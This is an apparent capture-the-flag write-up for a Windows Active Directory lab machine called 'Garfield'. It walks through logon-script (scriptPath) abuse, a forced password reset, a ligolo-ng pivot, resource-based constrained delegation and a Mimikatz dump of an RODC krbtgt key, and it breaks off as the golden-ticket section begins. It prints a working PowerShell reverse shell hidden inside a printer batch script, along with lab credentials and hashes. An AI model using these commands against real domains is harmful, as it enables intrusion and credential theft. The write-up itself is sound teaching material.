




| Property         | Value                                                                                                                                                                                                                                                           |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **OS**           | Windows                                                                                                                                                                                                                                                         |
| **Difficulty**   | Hard                                                                                                                                                                                                                                                            |
| **Release Date** | 2026-04-04                                                                                                                                                                                                                                                      |
| **State**        | Active                                                                                                                                                                                                                                                          |
| **IP**           | 10.129.244.207                                                                                                                                                                                                                                                  |
| **Techniques**   | AD/BloodHound enumeration, ACL abuse, scriptPath logon-script RCE, ForceChangePassword abuse, ligolo-ng pivoting, RODC delegation abuse, Resource-Based Constrained Delegation, Kerberos S4U2Self/S4U2Proxy, RODC golden ticket & KeyList credential disclosure |
| **Tags**         | #ad #windows #privesc #kerberos #rodc                                                                                                                                                                                                                           |

---
## Summary

Garfield is a hard Windows machine built around Active Directory, centered on a Read-Only Domain Controller (RODC). Starting credentials for `j.arbuckle` are provided. BloodHound enumeration reveals a second domain controller, `RODC01`, and several accounts of interest: `l.wilson`, `l.wilson_adm`, and a dedicated KDC service account belonging to the RODC, `krbtgt_8245`. `j.arbuckle` is a member of the `IT Support` group, which holds a hidden, non-default ACE granting write access to the `Script-Path` attribute of every domain user. This is abused to plant a malicious logon script on the `SYSVOL`/`NETLOGON` share and point `l.wilson`'s `scriptPath` at it, yielding a reverse shell as `l.wilson` the next time the account logs on. `l.wilson` in turn holds `ForceChangePassword` over `l.wilson_adm`, a member of `Remote Management Users`; resetting the password grants WinRM access and the user flag.

`l.wilson_adm` holds delegated administrative rights over the computer object `RODC01` (`WriteAccountRestrictions`, `ForceChangePassword`, and `AddSelf` to the `RODC Administrators` group). After pivoting into the domain's internal `192.168.100.0/24` segment with `ligolo-ng` to reach `RODC01` directly, a Resource-Based Constrained Delegation (RBCD) attack is used to obtain a session as the built-in `Administrator` account on `RODC01`, from which `RODC01`'s own KDC service account (`krbtgt_8245`) is dumped with Mimikatz. Because RODCs are designed to sit in a lower trust tier, a golden ticket forged with this key is initially rejected by the writable domain controller (`KDC_ERR_TGT_REVOKED`), since `Administrator`/`Domain Admins` sit in the RODC's default deny list for cached credentials. Overwriting `RODC01`'s `msDS-NeverRevealGroup` / `msDS-RevealOnDemandGroup` password-replication-policy attributes removes that protection. The same forged ticket is then replayed against a writable DC together with Rubeus' `KeyList` request, which discloses `Administrator`'s real NTLM hash directly from the domain controller, completing the compromise via Pass-the-Hash.

---
## Enumeration

```
echo '10.129.244.207 garfield.htb' | sudo tee -a /etc/hosts
```

Added the IP of the machine to the `/etc/hosts` file.

### Nmap Scan

```
sudo nmap -sC -sV garfield.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-20 05:33 EDT
Nmap scan report for garfield.htb (10.129.244.207)
Host is up (0.034s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-20 17:33:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.garfield.htb
| Not valid before: 2026-07-19T17:25:23
|_Not valid after:  2027-01-18T17:25:23
|_ssl-date: 2026-07-20T17:34:42+00:00; +8h00m02s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: GARFIELD
|   NetBIOS_Domain_Name: GARFIELD
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: garfield.htb
|   DNS_Computer_Name: DC01.garfield.htb
|   DNS_Tree_Name: garfield.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-07-20T17:34:01+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 8h00m02s, deviation: 0s, median: 8h00m01s
| smb2-time: 
|   date: 2026-07-20T17:34:02
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.67 seconds
```

The scan discloses the standard AD services set DNS (53), Kerberos (88), LDAP (389/3268), SMB (445), RPC (135/593) plus RDP (3389) and WinRM (5985). The hostname `DC01` and the `garfield.htb` LDAP domain confirm the target is a domain controller. Nmap also flags a **~8 hour clock skew** between the scanning host and the DC; this becomes directly relevant later, since Kerberos rejects any ticket whose timestamp drifts more than roughly 5 minutes from the KDC's clock.

### Starting Credentials

```
j.arbuckle : Th1sD4mnC4t!@1978
```

### BloodHound Collection

```
bloodhound-ce-python -u j.arbuckle -p 'Th1sD4mnC4t!@1978' -d garfield.htb -ns 10.129.244.207 -c All
```

```
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: garfield.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication.
INFO: Connecting to LDAP server: dc01.garfield.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Found 8 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: RODC01.garfield.htb
INFO: Querying computer: DC01.garfield.htb
INFO: Done in 00M 08S
```

The collector immediately reveals a **second domain controller, `RODC01`**, a Read-Only Domain Controller alongside the "real" DC, `DC01`. Searching for `j.arbuckle` in the BloodHound GUI shows only the account's baseline attributes; at first glance it has no outbound object-control edges of interest:



### User Enumeration

```
nxc smb garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --users
```

```
SMB         10.129.244.207  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:False) 
SMB         10.129.244.207  445    DC01             [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978 
SMB         10.129.244.207  445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.244.207  445    DC01             Administrator                 2025-10-03 17:29:26 0       Built-in account for administering the computer/domain 
SMB         10.129.244.207  445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.244.207  445    DC01             krbtgt                        2025-08-13 11:05:26 0       Key Distribution Center Service Account 
SMB         10.129.244.207  445    DC01             krbtgt_8245                   2025-08-17 11:33:39 0       Key Distribution Center service account for read-only domain controller 
SMB         10.129.244.207  445    DC01             j.arbuckle                    2025-09-09 15:50:55 0        
SMB         10.129.244.207  445    DC01             l.wilson                      2026-01-27 21:40:33 0        
SMB         10.129.244.207  445    DC01             l.wilson_adm                  2026-01-13 14:56:35 0        
SMB         10.129.244.207  445    DC01             [*] Enumerated 7 local users: GARFIELD
```

Two accounts stand out beyond the usual defaults: `l.wilson` / `l.wilson_adm` (a standard-user / admin-tier pair), and `krbtgt_8245` (a **second krbtgt account**), whose description confirms it belongs to the RODC. Every RODC in a domain gets its own dedicated KDC service account, named `krbtgt_<n>`, where `<n>` is that RODC's numeric identifier. A normal domain has exactly _one_ krbtgt account, but every RODC adds one more: is the seed of the entire privilege-escalation chain.

### SMB Share Enumeration

```
nxc smb garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --shares
```

```
SMB         10.129.244.207  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:False) 
SMB         10.129.244.207  445    DC01             [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978 
SMB         10.129.244.207  445    DC01             [*] Enumerated shares
SMB         10.129.244.207  445    DC01             Share           Permissions     Remark
SMB         10.129.244.207  445    DC01             -----           -----------     ------
SMB         10.129.244.207  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.244.207  445    DC01             C$                              Default share
SMB         10.129.244.207  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.244.207  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.244.207  445    DC01             SYSVOL          READ            Logon server share 
```

Only the default shares are exposed, so the path forward has to come from AD object permissions.

### Writable Object Enumeration

```
bloodyad -H garfield.htb --dns 10.129.244.207 -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' get writable
```

```
distinguishedName: CN=Guest,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=Jon Arbuckle,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: DC=garfield.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=garfield,DC=htb
permission: CREATE_CHILD

distinguishedName: DC=_msdcs.garfield.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=garfield,DC=htb
permission: CREATE_CHILD
```

`j.arbuckle` shows generic `WRITE` over both `l.wilson` and `l.wilson_adm` — but a blanket "WRITE" permission on its own doesn't say _which_ attribute is writable, or why. Group membership explains it:

```
bloodyad --host 10.129.244.207 -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' get object j.arbuckle --attr memberOf
```

```
distinguishedName: CN=Jon Arbuckle,CN=Users,DC=garfield,DC=htb
memberOf: CN=IT Support,CN=Users,DC=garfield,DC=htb
```

`j.arbuckle` belongs to the `IT Support` group. Pulling the full security descriptor of `l.wilson` and resolving the trustees shows why that matters:

```
bloodyad -H garfield.htb --dns 10.129.244.207 -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' get object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" --resolve-sd
```

The descriptor lists several dozen entries, almost all of them the standard built-in ACEs every domain user object has (self-service password reset, default property-set reads for `Authenticated Users`, etc.). Buried among them is a single **non-default** entry that matters:

```
nTSecurityDescriptor.ACL.11.Type: == ALLOWED_OBJECT ==
nTSecurityDescriptor.ACL.11.Trustee: IT Support
nTSecurityDescriptor.ACL.11.Right: WRITE_PROP|READ_PROP
nTSecurityDescriptor.ACL.11.ObjectType: Script-Path
nTSecurityDescriptor.ACL.11.InheritedObjectType: User
nTSecurityDescriptor.ACL.11.Flags: CONTAINER_INHERIT; INHERITED
```

Relevant account attributes for later steps:

```
memberOf: CN=Remote Management Users,CN=Builtin,DC=garfield,DC=htb; CN=Remote Desktop Users,CN=Builtin,DC=garfield,DC=htb
sAMAccountName: l.wilson
userPrincipalName: l.wilson@garfield.htb
```

The `IT Support` group holds `WRITE_PROP` over the **`Script-Path`** attribute of every user object in the domain (the ACE is inherited from the domain root, `CONTAINER_INHERIT`). That one line is the entire foothold.

---
## Foothold

### Understanding `scriptPath` Abuse

`scriptPath` is a legacy user attribute that predates Group Policy: whatever value it holds is treated as a relative path and resolved against the domain's `NETLOGON` share (`\\<domain>\NETLOGON\<scriptPath>`), which on every DC is physically backed by `SYSVOL\<domain>\scripts\`. Whenever the user next performs an interactive logon, Windows fetches that file and executes it in the user's own security context, no elevated rights of the target user are needed for the write, only for the target's _own_ logon session to run it. If an attacker holds write access to this attribute:

1. **Vulnerability** — `GenericWrite`/`WriteProperty` over `Script-Path` (here, delegated to the whole `IT Support` group) lets any member repoint a victim's logon script anywhere the group can also write to.
2. **Execution** — A malicious script (a `.bat` wrapping a reverse-shell payload, in this case) is dropped into the writable `SYSVOL\...\scripts\` folder, and `scriptPath` is set to its filename.
3. **Result** — The next time the target logs on, the OS runs the script under that user's own token, with no exploit or vulnerability beyond the misconfigured ACL required.

References: [The Hacker Recipes — Logon Script Abuse](https://www.thehacker.recipes/ad/movement/dacl/logon-script) · [offsec.blog — Identifying Misconfigured Logon Scripts](https://offsec.blog/hidden-menace-how-to-identify-misconfigured-and-dangerous-logon-scripts/)

### Exploitation

`SYSVOL\garfield.htb\scripts` is writable by `j.arbuckle`:

```
smbclient //10.129.244.207/SYSVOL -U garfield.htb/j.arbuckle%'Th1sD4mnC4t!@1978'
```

```
smb: \> cd garfield.htb\scripts
smb: \garfield.htb\scripts\> ls
  .                                   D        0  Tue Jan 27 17:13:47 2026
  ..                                  D        0  Tue Jan 27 17:13:47 2026
  printerDetect.bat                   A      217  Fri Sep 12 18:20:29 2025
```

An existing script (`printerDetect.bat`) is already deployed to fingerprint local printers via WMI:

```shell
cat printerDetect.bat
@echo off
echo Detecting installed printers...
echo ==============================
wmic printer get Name,DeviceID,PortName,DriverName,Shared,Status /format:table
echo.
echo Printer detection completed.
pause
```

A reverse-shell payload is appended so a PowerShell one-liner is called in the background:

```shell
cat revshell.bat
@echo off
echo Detecting installed printers...
echo ==============================
wmic printer get Name,DeviceID,PortName,DriverName,Shared,Status /format:table
echo.
echo Printer detection completed.

powershell -nop -w hidden -c "$c=New-Object System.Net.Sockets.TCPClient('10.10.14.254',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+'PS '+(pwd).Path+'> ';$sbt=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$c.Close()"
```

Uploading the malicious script into the scripts folder:

```shell
smbclient //10.129.244.207/SYSVOL -U garfield.htb/j.arbuckle%'Th1sD4mnC4t!@1978'
smb: \garfield.htb\scripts\> put revshell.bat
```

Setting `l.wilson`'s `scriptPath` to point at it, abusing the ACE identified earlier:

```shell
bloodyad -H garfield.htb --dns 10.129.244.207 -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v 'revshell.bat'
```

```
[+] CN=Liz Wilson,CN=Users,DC=garfield,DC=htb's scriptPath has been updated
```

Catching the shell once `l.wilson`'s next logon runs the script:

```shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.254] from (UNKNOWN) [10.129.244.207] 57302
whoami
garfield\l.wilson
PS C:\Windows\system32>
```

---

## Lateral Movement — from `l.wilson` to `l.wilson_adm`

BloodHound confirms a direct, exploitable ACL between the two accounts:



`l.wilson` holds **`ForceChangePassword`** over `l.wilson_adm` (the underlying AD right is the `User-Force-Change-Password` extended right). This is different from a normal password change: the holder does **not** need to know the target's current password at all, they can simply overwrite it outright via an LDAP modify on the account's password attribute. This is the classic ACL-abuse primitive for hopping from a standard account to an admin-tier one once a `ForceChangePassword` edge is found in BloodHound.

PowerView is imported into the current session and used to perform the reset:

```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity l.wilson_adm -AccountPassword $UserPassword -Credential $Cred
```

`$Cred` supplies the credentials of the principal that actually holds the right — `l.wilson`, whose logon session is already active in the current shell. Once the call succeeds, `l.wilson_adm`'s password is `Password123!`.

`l.wilson_adm` is a member of `Remote Management Users`, so the new password grants WinRM access directly:

## User Flag

```
evil-winrm -i garfield.htb -u l.wilson_adm -p 'Password123!'
```

```
*Evil-WinRM* PS C:\Users\l.wilson_adm\Desktop> type user.txt
8150************************0813
```

---
## Privilege Escalation

### Enumeration

BloodHound shows two rights held by `l.wilson_adm` directly over the **`RODC01`** computer object, plus a group-membership primitive:



- `WriteAccountRestrictions` and `ForceChangePassword` on `RODC01.GARFIELD.HTB`
- `AddSelf` on the `RODC ADMINISTRATORS` group

Pathfinding from `l.wilson_adm` all the way to the RODC's own KDC account draws the full chain in one picture:



`l.wilson_adm` → (`WriteAccountRestrictions` / `ForceChangePassword`) → `RODC01.GARFIELD.HTB` → (`ForceChangePassword`) → `KRBTGT_8245@GARFIELD.HTB`

That last edge is not a misconfiguration, it's a **built-in, expected relationship**: an RODC's own computer account always holds rights over its dedicated krbtgt account, because in normal operation the RODC itself is the entity that needs to manage that account's key material. The problem is that `l.wilson_adm` doesn't need to attack `krbtgt_8245` directly at all — it only needs to gain control of `RODC01` itself, and everything downstream of that follows automatically.

> [!info] What is an RODC, and why does it matter here? A Read-Only Domain Controller is a DC variant meant for locations with weaker physical security (branch offices, DMZs, etc.). It holds a read-only copy of the AD database and, critically, **caches only the passwords it has been explicitly authorized to cache** — controlled by a "password replication policy" (an _Allowed_/_Denied_ group pair, mirrored by the `msDS-RevealOnDemandGroup` / `msDS-NeverRevealGroup` attributes on the RODC's own computer object). By default, high-value accounts (`Administrator`, `Domain Admins`, `krbtgt`, `Enterprise Admins`, etc.) are hard-coded into the _deny_ list, specifically so that a fully compromised RODC — including its own krbtgt account — cannot be used to reach domain-wide credentials. Everything from this point forward is about legitimately-delegated rights over `RODC01` being used to erode that last protection.

`WriteAccountRestrictions` is a property-set grant that covers several security-relevant computer-object attributes, including **`msDS-AllowedToActOnBehalfOfOtherIdentity`** — the attribute behind **Resource-Based Constrained Delegation (RBCD)**. Whoever can write that attribute on a computer object can name an arbitrary security principal (including one they fully control) as "trusted to delegate" to that computer, and then use the Kerberos S4U extensions to impersonate _any_ domain user when authenticating to it.

### Internal Network Discovery

`ipconfig` on the already-compromised `DC01` session shows a second, internal-only NIC:

```
*Evil-WinRM* PS C:\Users\l.wilson_adm\Desktop> ipconfig

Ethernet adapter vEthernet (Switch01):
   IPv4 Address. . . . . . . . . . . : 192.168.100.1

Ethernet adapter Ethernet0 3:
   IPv4 Address. . . . . . . . . . . : 10.129.244.207
```

`DC01` is dual-homed onto an internal Hyper-V switch, `192.168.100.0/24`, that isn't reachable directly from the attacking host. A DNS lookup through the DC confirms `RODC01` lives there:

```
nslookup rodc01.garfield.htb 10.129.244.207
Name:   rodc01.garfield.htb
Address: 192.168.100.2
```

### Pivoting with ligolo-ng

Since `RODC01` is only reachable through `DC01`, [ligolo-ng](https://github.com/nicocha30/ligolo-ng) is used to build a routed tunnel into `192.168.100.0/24`, effectively turning the compromised `DC01` session into a network relay, rather than forwarding individual ports one at a time. Each phase below corresponds to one moving part of that tunnel:

**1. Start the proxy server (attacker side).** This is the listener that compromised hosts ("agents") dial back into. `-selfcert` auto-generates a TLS certificate so the tunnel is encrypted without needing a real PKI.

```shell
sudo ligolo-proxy -selfcert
```

This also creates a local `ligolo` network interface (a TUN device) on the attacker machine, this is the "other end" of the tunnel that traffic will later be routed into.

**2. Upload and run the agent (target side).** The agent is a small Go binary that, once executed on the compromised host, connects back to the proxy and registers itself as an available session:

```
*Evil-WinRM* PS> upload agent.exe
*Evil-WinRM* PS> .\agent.exe -connect 10.10.14.254:11601 -ignore-cert
```

**3. Select the session and start the tunnel.** On the proxy console, the newly joined agent shows up as a session; `start` begins actively forwarding IP traffic between the attacker's `ligolo` interface and the agent's network stack:

```
ligolo-ng » session
? Specify a session : 1 - GARFIELD\l.wilson_adm@DC01 - 10.129.244.207:63731
[Agent : GARFIELD\l.wilson_adm@DC01] » start
```

**4. Route the target subnet through the tunnel interface.** This is the step that actually makes `192.168.100.0/24` reachable: any packet the attacker's OS wants to send to that range is now sent into the `ligolo` TUN device instead of the real NIC, and the proxy/agent pair relays it onward from inside `DC01`'s network:

```shell
sudo ip route add 192.168.100.0/24 dev ligolo
```

**5. Verify.** From this point on, the internal segment behaves like a normal, routable network from the attacker's machine:

```
ping 192.168.100.2
64 bytes from 192.168.100.2: icmp_seq=1 ttl=64 time=44.0 ms
```

```
echo '192.168.100.2 rodc01.garfield.htb' | sudo tee -a /etc/hosts
```

### Confirming Delegated Rights on RODC01

With direct access to `RODC01`, `l.wilson_adm`'s `AddSelf` right is used to join the group that grants delegated administrative control over that specific RODC (this is the standard "delegated RODC administrator" model, a non–Domain Admin can be given local-admin-equivalent rights over one RODC without being a Domain Admin):

```
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> Add-ADGroupMember -Identity "RODC ADMINISTRATORS" -Members l.wilson_adm
```

Connecting to `RODC01` directly through the tunnel confirms the new membership:

```
evil-winrm -i rodc01.garfield.htb -u l.wilson_adm -p 'Password123!'
*Evil-WinRM* PS> whoami /groups
...
GARFIELD\RODC Administrators               Group            S-1-5-21-...-2101
```

### RBCD — Obtaining a Session as `Administrator` on RODC01

Group membership confirms the delegation, but the later steps (running Mimikatz with `SeDebugPrivilege`, and matching the identity the golden ticket will later impersonate) are done more directly by using the `WriteAccountRestrictions` right to run a full RBCD attack against `RODC01` and land a session **as the domain `Administrator`**, scoped to that one machine.

**1. Create an attacker-controlled machine account.** Any domain user can add up to `ms-DS-MachineAccountQuota` (default 10) computer accounts:

```shell
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip 10.129.244.207 'garfield.htb/l.wilson_adm:Password123!'
```

**2. Configure RBCD on `RODC01`.** `l.wilson_adm`'s `WriteAccountRestrictions` right covers `msDS-AllowedToActOnBehalfOfOtherIdentity`; this sets it so that `ATTACKERSYSTEM$` is trusted to delegate to `RODC01`:

```shell
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'RODC01$' -action 'write' -dc-ip 10.129.244.207 'garfield.htb/l.wilson_adm:Password123!'
```

```
[*] Delegation rights modified successfully!
[*] ATTACKERSYSTEM$ can now impersonate users on RODC01$ via S4U2Proxy
```

**3. Request a service ticket impersonating `Administrator`.** `impacket-getST` performs the S4U2Self (request a ticket for `Administrator`, addressed to ourselves) then S4U2Proxy (trade that ticket, via the RBCD entry above, for one addressed to `RODC01`'s `cifs` service) chain in one step:

```shell
impacket-getST -spn 'cifs/rodc01.garfield.htb' -impersonate 'Administrator' 'garfield.htb/attackersystem$:Summer2018!'
```

> [!warning] Clock skew This first attempt fails with `Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)`, matching the ~8 hour skew nmap flagged at the very start. Kerberos requires all parties' clocks to agree within a small tolerance (5 minutes by default), so the attacker's clock is synced against the DC before retrying:
> 
> ```shell
> sudo ntpdate garfield.htb
> ```
> 
> This has to be repeated at points throughout the rest of the attack chain whenever a `KRB_AP_ERR_SKEW` shows up again, since local clock drift keeps re-accumulating.


```shell
export KRB5CCNAME=Administrator@cifs_rodc01.garfield.htb@GARFIELD.HTB.ccache
```

**4. Use the ticket.** The resulting Kerberos ticket is valid for `RODC01`'s CIFS/WMI stack as `Administrator`:

```shell
impacket-wmiexec garfield.htb/Administrator@rodc01.garfield.htb -k -no-pass -dc-ip 10.129.244.207 -target-ip 192.168.100.2
```

```
C:\>whoami
garfield\administrator
```

### Dumping `krbtgt_8245`

With a shell as `Administrator` on `RODC01`, Mimikatz is uploaded (via a `impacket-smbserver` share) and used to dump the RODC's own KDC service account:

```
C:\>.\mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_8245" "exit"
```

```
 * Primary
    NTLM : 445aa4221e751da37a10241d962780e2
 * Kerberos-Newer-Keys
    aes256_hmac (4096) : d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
    aes128_hmac (4096) : 124c0fd09f5fa4efca8d9f1da91369e5
```

At this point the attacker has full key material for `krbtgt_8245` — but **not** for the domain's real `krbtgt` account. What can (and can't) be done with an RODC's krbtgt key is the entire remainder of the box.

---
## RODC Golden Ticket & KeyList Attack

A "golden ticket" is normally forged with the real domain `krbtgt` key, which lets an attacker mint a completely valid TGT for any user, trusted by every DC in the domain. An RODC's `krbtgt_<n>` key is weaker by design: a ticket forged with it is only meant to be _presented back to that specific RODC_, not trusted domain-wide. The attack chain here is:

1. Forge a "TGT" using the `krbtgt_8245` key, marked as originating from `RODC01` (Rubeus' `/rodcNumber` flag).
2. Present that ticket to a **writable** DC and ask for a service ticket, using Rubeus' `/keyList` option.
